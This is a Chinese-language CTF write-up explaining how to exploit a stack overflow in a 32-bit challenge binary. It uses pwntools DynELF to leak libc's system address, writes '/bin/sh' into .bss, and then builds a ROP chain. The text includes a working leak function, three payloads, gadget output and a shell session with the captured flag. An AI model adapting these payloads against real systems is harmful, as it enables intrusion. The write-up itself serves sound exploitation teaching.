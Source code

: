 第一次用DynELF，过程还是很坎坷

题目链接：https://pan.baidu.com/s/1wqI7YkGzVUefR6951k0pbA

提取码：and4

查壳发现开了NX，在ida里面发现存在栈溢出。system和/bin/sh都没有，且没有提供libc，于是选择用DynELF。

DynELF的使用条件:

不管有没有libc文件，要想获得目标系统的system函数地址，首先都要求目标二进制程序中存在一个能够泄漏目标系统内存中libc空间内信息的漏洞。同时，由于我们是在对方内存中不断搜索地址信息，故我们需要这样的信息泄露漏洞能够被反复调用。以下是大致归纳的主要使用条件：

**1）目标程序存在可以泄露libc空间信息的漏洞，如read\@got就指向libc地址空间内；

**2）目标程序中存在的信息泄露漏洞能够反复触发，从而可以不断泄露libc地址空间内的信息。

当然，以上仅仅是实现利用的基本条件，不同的目标程序和运行环境都会有一些坑需要绕过。但通过DynELF只能泄露出system的地址，并不能找到’/bin/sh’，所以我们需要把它写到bss段里来执行。

先找到覆盖位置，（0x88+4）的位置开始

总体的思路是布置栈空间来执行。第一次泄露出system的地址返回到main函数，第二次通过read将’/bin/sh\x00’写到bss段里再返回main，第三次执行system(‘/bin/sh’)

先构造leak函数

    def leak(address):

    payload = junk + p32(write_plt) + p32(main) + p32(1) + p32(address) + p32(4)

    r.sendline(payload)

    leaked = r.recv(4)

    print "[%s] -\  [%s] = [%s]" % (hex(address), hex(u32(leaked)),
    repr(leaked))

    return leaked

    d=DynELF(leak,elf=ELF('level4'))

    sys_addr=d.lookup('system','libc')

泄露出system的地址并且返回到了main

第二次布置栈，通过read将’/bin/sh\\x00’写到bss里面，再返回main

    payload2='a'\*140+p32(read_plt)+p32(main)+p32(0)+p32(bss_addr)+p32(8)

    r.send(payload2)

    r.send('/bin/sh\\x00')

注意，第二个输入要用send而不是sendline否则会发生错误，第一个随意

第三次布置栈执行system

    payload3='a'\*140+p32(sys_addr)+'a'\*4+p32(bss_addr)

    r.sendline(payload3)

    r.interactive()

拿到shell

    [*] Switching to interactive mode

    $ ls

    flag

    level4

    $ whoami

    ctf

    $ cat flag

    CTF{882130cf51d65fb705440b218e94e98e}

    $

因为是32位的题，所以可以在布置栈来解题，但如果是64位的题就不能了，

因为根据X86_64
ABI的调用约定，函数间传递参数不再以压栈的方式，而是以寄存器方式传递参数，前面6个参数依次以rdi,
rsi, rdx, rcx,
r8和r9寄存来传递。在Linux系统，64位架构只使用48位的虚拟地址空间，也即每个地址高16位全部为0，因此在64位系统上，地址已天然零化。

所以这题我们还可以用ROP来做，将read所需要的三个参数通过三个pop弹出。ROPgadget可以帮我们找到是否有3个pop满足条件

    # ROPgadget --binary level4 --only 'pop|ret'

    Gadgets information

    ============================================================

    0x0804850b : pop ebp ; ret

    0x08048508 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret

    0x080482f1 : pop ebx ; ret

    0x0804850a : pop edi ; pop ebp ; ret

    0x08048509 : pop esi ; pop edi ; pop ebp ; ret

    0x080482da : ret

    0x080483ce : ret 0xeac1

    Unique gadgets found: 7

我们用这个0x08048509构造payload

    payload ='a'*140 + p32(read_plt) + p32(ppr) + p32(0)+ p32(bss_addr) +
    p32(8)

    payload+=p32(sys_addr) + p32(0xdeadbeef) + p32(bss_addr)

    r.sendline(payload)

    r.sendline('/bin/sh\x00')

拿到shell。

参考链接：https://www.anquanke.com/post/id/85129 
